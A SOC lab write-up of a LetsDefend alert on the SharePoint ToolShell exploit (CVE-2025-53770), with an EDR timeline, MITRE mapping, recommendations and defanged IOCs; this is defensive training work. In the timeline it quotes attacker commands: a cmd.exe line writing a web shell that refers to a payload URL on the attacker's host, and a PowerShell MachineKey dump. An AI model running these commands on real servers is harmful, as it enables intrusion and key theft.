







# SOC342 – CVE-2025-53770 SharePoint ToolShell Auth Bypass and RCE

**Platform:** LetsDefend SOC Simulator | **Event ID:** 320 | **Severity:** Critical | **Difficulty:** Hard
**Analyst:** Sidharth V Nambiar | **Verdict:** ✅ True Positive (exploit succeeded, host contained, escalated to Tier 2)

---

## Summary

An internet IP hosted on Vultr sent an unauthenticated POST to SharePoint's `ToolPane.aspx` with a spoofed `SignOut.aspx` Referer, which is the ToolShell (CVE-2025-53770) deserialization exploit. Within 24 seconds the SharePoint worker process (`w3wp.exe`) spawned PowerShell, wrote a web shell (`spinstall0.aspx`) into the public LAYOUTS folder, and dumped the server's ASP.NET MachineKey. I contained SharePoint01 and escalated to Tier 2.

---

## Alert details

| Field | Value |
|---|---|
| Event time | 2025-07-22 13:07:10 (+03:00) |
| Rule | SOC342 – CVE-2025-53770 SharePoint ToolShell Auth Bypass and RCE |
| Source IP | 107.191.58.76 |
| Destination | SharePoint01 / 172.16.20.17 |
| Request | `POST /_layouts/15/ToolPane.aspx?DisplayMode=Edit&a=/ToolPane.aspx` |
| Referer | `/_layouts/SignOut.aspx` (spoofed) |
| Content-Length | 7699 |
| Device action | Allowed |

---

## Investigation

### 1. Source IP reputation (VirusTotal)
- **11/92** vendors flag `107.191.58.76` as malicious; community score −9.
- AS20473 The Constant Company (Vultr), a cloud VPS provider often used for attack infrastructure.

### 2. Log Management (proxy)
- One event: `107.191.58.76:25332 → 172.16.20.17:443`.
- The Request and Referer fields match the alert. The proxy log captures only the request (no response status), so the endpoint was needed to prove success.

### 3. Planned test?
- No pentest or maintenance notice in Email Security, so this is not a planned test.

### 4. Endpoint analysis (EDR – SharePoint01)

| Time | Evidence | Source |
|---|---|---|
| 13:07:10 | Malicious POST to ToolPane.aspx | Alert / proxy |
| 13:07:11 | `w3wp.exe` (parent `services.exe`) running normally | Processes |
| 13:07:24 | **`w3wp.exe` → `powershell.exe`** as `IIS APPPOOL\SharePoint - 80` | Processes |
| 13:07:2x | `powershell.exe` → `csc.exe` (C# compiler) | Processes |
| 13:07:29 | `cmd.exe /c echo <form runat="server">…Url="http://107.191.58.76/payload.exe"… > …\16\TEMPLATE\LAYOUTS\spinstall0.aspx` (**web shell written**) | Terminal History |
| 13:07:34 | `powershell.exe -Command "[System.Web.Configuration.MachineKeySection]::GetApplicationConfig()"` (**MachineKey dumped**) | Terminal History |

A web server should never start a shell. That parent-child relationship, followed by a file write into a publicly reachable folder, proves remote code execution.

---

## Why "Other" as attack type
CVE-2025-53770 is **insecure deserialization**: SharePoint unpacks an attacker-crafted object from the POST body and runs it. It is not command injection (commands were not slipped into an input field). The shell commands were the result of the deserialization, not the vector.

## Why the MachineKey matters
The MachineKey (ValidationKey and DecryptionKey) signs ASP.NET ViewState. With it, an attacker can forge valid payloads and regain code execution **even after patching**, so the fix is to patch **and** rotate the keys.

---

## MITRE ATT&CK mapping

| Technique | ID | Evidence |
|---|---|---|
| Exploit Public-Facing Application | T1190 | ToolPane.aspx deserialization |
| Command and Scripting Interpreter: Windows Command Shell | T1059.003 | `cmd.exe /c echo … > spinstall0.aspx` |
| Command and Scripting Interpreter: PowerShell | T1059.001 | w3wp.exe → powershell.exe |
| Server Software Component: Web Shell | T1505.003 | `spinstall0.aspx` in LAYOUTS |
| Unsecured Credentials / key theft | T1552 | MachineKey dumped |
| Ingress Tool Transfer | T1105 | `payload.exe` from 107.191.58.76 |

(Alert tags also included T1078, T1047, T1569.002, T1543.003 and discovery techniques T1016/T1033/T1049/T1057/T1082/T1083/T1087/T1518.)

---

## Response actions
- ✅ Contained SharePoint01 (172.16.20.17) via EDR
- ✅ Recorded IOCs as case artifacts
- ✅ Escalated to Tier 2 (successful compromise)

## Recommendations
- Delete `spinstall0.aspx` and check LAYOUTS for other unexpected .aspx files
- Rotate ASP.NET MachineKeys and restart IIS
- Apply Microsoft's July 2025 SharePoint security update; enable AMSI in Full Mode
- Block `107.191.58.76` at the firewall and proxy
- Hunt for `payload.exe`, other w3wp.exe child processes, and requests to `spinstall0.aspx`

---

## IOCs

| Type | Value |
|---|---|
| Attacker IP | `107.191.58[.]76` |
| Payload URL | `hxxp://107.191.58[.]76/payload.exe` |
| Web shell | `C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx` |
| Exploited endpoint | `/_layouts/15/ToolPane.aspx` with Referer `/_layouts/SignOut.aspx` |
| Compromised host | SharePoint01 / `172.16.20.17` |

---

## Lessons learned
1. **"Allowed" plus a request-only log isn't proof either way.** The endpoint decides whether an exploit worked.
2. **Parent-child processes tell the story.** `w3wp.exe` spawning a shell is a classic web-shell and RCE indicator.
3. **Patching isn't enough after key theft.** Rotate secrets too.
4. **Successful compromise → contain and escalate.**

## Tools used
LetsDefend SIEM (Monitoring, Log Management, Email Security, EDR, Case Management) · VirusTotal · MITRE ATT&CK

## 📸 Evidence

**Alert details**

**Alert request**

**Virustotal ip**

**Log management**

**Processes**

**Terminal history webshell**

**Network connections**

---
*Lab: LetsDefend (Hack The Box). All indicators are from a training scenario and are defanged.*
